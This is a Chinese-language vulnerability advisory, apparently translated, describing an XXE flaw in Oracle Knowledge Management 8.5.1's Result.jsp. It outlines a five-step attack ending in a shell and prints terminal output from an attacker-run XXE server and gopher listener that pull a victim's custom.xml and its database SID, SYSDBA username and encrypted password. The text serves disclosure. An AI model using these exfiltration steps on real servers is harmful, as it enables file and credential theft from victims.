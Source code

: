 **一、漏洞概要**

本文对Oracle知识库管理系统8.5.1发布的公告内容进行分析。

Oracle的InQuira知识库管理产品具备对各种来源的搜索技术，为用户提供了简单方便的获取知识的方法，这些知识普遍隐藏于存储企业内容的各类系统、应用程序以及数据库中。

总而言之，Oracle的知识库管理产品可以帮助用户在公司存储信息中挖掘有用的知识。

<br>

**二、特别鸣谢**

作为一名独立的安全研究员，Steven Seely发现了该产品中存在的漏洞，并将漏洞报告给Beyond Security公司的SecuriTeam安全公告计划。

<br>

**三、厂商响应**

Oracle已针对该漏洞发布了补丁，更多细节可以参考[此链接](http://www.oracle.com/technetwork/security-advisory/cpujul2016-2881720.html)。

<br>

**四、漏洞细节**

存在漏洞的代码位于“/imws/Result.jsp”文件中，攻击者利用该缺陷代码可访问位于第三方服务器中的某个XML文件。第三方服务器受攻击者控制，最终可实现受害者本地服务器上文件的窃取。

我们需要经过以下5个步骤以利用该漏洞（前面两个步骤需要在后台执行）：

1、建立恶意的XML外部实体（XML External Entity，XXE）服务器。

2、监听gopher协议。

3、攻击者窃取“custom.xml”文件。

4、解密或破解AES密码。

5、获取受害者服务器的Shell。

下图反映了此次攻击的步骤以及攻击事件发生的顺序：

[![](./img/85798/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012ac810e8b4b5f00a.png)

步骤1：建立一个恶意的XML外部实体（XXE）服务器。

```
x@pluto:~/xxe$ ruby xxeserve.rb -o 0.0.0.0
[2015-02-09 16:03:45] INFO  WEBrick 1.3.1
[2015-02-09 16:03:45] INFO  ruby 1.9.3 (2013-11-22) [x86_64-linux]
== Sinatra/1.4.5 has taken the stage on 4567 for development with backup from WEBrick
[2015-02-09 16:03:45] INFO  WEBrick::HTTPServer#start: pid=18862 port=4567
172.16.77.128 - - [09/Feb/2015:16:04:10 +1100] "GET /xml?f=C:/Oracle/Knowledge/IM/instances/InfoManager/custom.xml HTTP/1.1" 200 173 0.0089
172.16.77.128 - - [09/Feb/2015:16:04:10 AEDT] "GET /xml?f=C:/Oracle/Knowledge/IM/instances/InfoManager/custom.xml HTTP/1.1" 200 173
- -&gt; /xml?f=C:/Oracle/Knowledge/IM/instances/InfoManager/custom.xml
```

步骤2：监听gopher协议。

```
x@pluto:~/xxe$ ./gopher.py
starting up on 0.0.0.0 port 1337
waiting for a connection
connection from ('172.16.77.128', 50746)
(+) The database SID is: jdbc:oracle:thin:@WIN-U94QE7O15KE:1521:IM
(+) The database username is: SYS as SYSDBA
(+) The database password is: VO4+OdJq+LXTkmSdXgvCg37TdK9mKftuz2XFiM9mif4=
```
